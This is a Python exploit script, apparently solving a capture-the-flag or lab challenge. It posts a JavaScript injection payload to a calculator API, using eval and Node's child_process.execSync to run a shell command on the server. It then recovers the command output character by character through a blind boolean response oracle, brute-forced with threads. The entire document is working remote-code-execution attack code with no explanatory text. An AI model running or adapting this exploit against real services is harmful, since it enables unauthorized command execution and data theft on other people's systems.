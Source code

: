 ```python
import string
import requests
from tqdm import tqdm
from concurrent.futures import ThreadPoolExecutor

url = "http://94.237.57.18:58093/api/calculate"

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}

command = "whoami"
res = ""

def check_char(i, chr):
    payload = (
        "(function (x) { return `${eval(\"if(global.process.mainModule.constructor._load('child_process').execSync('"
        + command
        + "').toString().charCodeAt("
        + str(i)
        + ") == "
        + str(ord(chr))
        + ') {25} else {1}")}` })()'
    )

    data = {"name": "123", "formula": payload}
    r = requests.post(url, json=data, proxies=proxies)

    if "Passed" in r.text:
     return chr
    return None

def guess_char(i):
    with ThreadPoolExecutor(max_workers=len(string.printable)) as executor:
        futures = {executor.submit(check_char, i, chr): chr for chr in string.printable}
        for future in tqdm(futures, desc=f"Guessing character at position {i}"):
            result = future.result()
            if result:
                return result
    return None

for i in range(100):  # 假设最多100个字符
    char = guess_char(i)
    if char is None:
        break
    res += char
    print(res)

print("Attack finished")
```
